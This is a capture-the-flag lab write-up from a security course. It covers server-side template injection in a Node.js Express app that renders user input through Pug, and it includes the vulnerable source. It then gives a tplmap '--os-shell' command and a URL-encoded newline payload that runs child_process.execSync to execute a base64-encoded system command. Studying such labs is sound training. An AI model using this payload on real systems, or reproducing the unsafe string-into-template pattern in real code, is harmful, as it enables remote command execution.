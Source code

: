 ```yaml
---
title: Simple Web 0x22(Lab - Pug)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > SSTI"
---
```


# Simple Web 0x22(Lab - Pug)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8008

## Source code
:::spoiler
```javascript=
const express = require('express');
const pug = require('pug');

const app = express();

const template = `
h1 Hello %NAME%
form(method='GET' action='/')
  div
    label(for='nickname') Name:
    input#nickname(type='text', placeholder='Nickname' name='name')
    button(type='submit') Submit 
  a(href='/source') Source Code
`;

app.get('/', (req, res) => {
    const name = (req.query.name ?? 'Anonymous').toString();
    if (name.includes('{')) return res.send('Nice try');
    let html = pug.render(template.replace('%NAME%', name));
    res.set('Content-Type', 'text/html');
    res.send(html);
});

app.get("/source", (_, res) => {
    res.sendFile(__filename);
});

app.listen(3000, () => console.log(':3000'));

```
:::
## Exploit - `tqlmap`
```bash!
$ ./tplmap.py --engine pug --os-shell -u "http://h4ck3r.quest:8008/?name=bob"
```

* Using wireshark to trace the payload
You must let the template by like:
    ```javascript!
    const template = `
    h1 Hello %NAME%
    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=', 'base64').toString())
    form(method='GET' action='/')
      div
        label(for='nickname') Name:
        input#nickname(type='text', placeholder='Nickname' name='name')
        button(type='submit') Submit 
      a(href='/source') Source Code
    `;
    ```
    Including a new line and an equal sign
    Payload:
    `%0A%3D%20global.process.mainModule.require%28%27child_process%27%29.execSync%28Buffer%28%27bHM%3D%27%2C%2B%27base64%27%29.toString%28%29%29`
    which is
    ```

    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=',+'base64').toString())
    ```
* Note that `bHM=` is command `ls` in base64 format
## Reference
[关于SSTI注入的二三事](https://xz.aliyun.com/t/11090)
[【SSTI模块注入】SSTI+Flask+Python（下）：绕过过滤](https://blog.51cto.com/u_15414689/5530904)
[0xdbe-appsec/ssti-express-pug](https://github.com/0xdbe-appsec/ssti-express-pug)
[Tplmap](https://github.com/epinna/tplmap/blob/master/README.md)
[[Linux系統] Ubuntu 安裝 Node.js](https://andy6804tw.github.io/2019/09/23/ubuntu-indtall-nodejs/)